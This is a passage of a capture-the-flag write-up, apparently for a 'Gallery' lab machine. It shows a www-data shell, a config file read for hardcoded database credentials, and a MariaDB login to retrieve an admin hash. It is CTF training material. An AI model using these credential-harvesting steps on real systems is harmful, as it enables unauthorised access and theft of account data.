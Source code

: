   uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Now change it to Putty shell and let's get those flags.

---

## 🧍 User Privilege Escalation

- I found the first flag but couldn't read it. Then I visited a web server directory and found database credentials.

  ```
  www-data@gallery:/var/www/html/gallery$ cat initialize.php 
  <?php
  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
  
  if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
  if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
  if(!defined('dev_data')) define('dev_data',$dev_data);
  if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
  if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
  if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
  if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
  ```
  
- Login with MySQL and get the admin hash. No need to crack it at all.

  ```
  www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p
  Enter password: 
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MariaDB connection id is 17347
  Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04
  
  Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
  
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | gallery_db         |
  | information_schema |
  +--------------------+
  2 rows in set (0.00 sec)
  
  MariaDB [(none)]> use gallery_db;
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  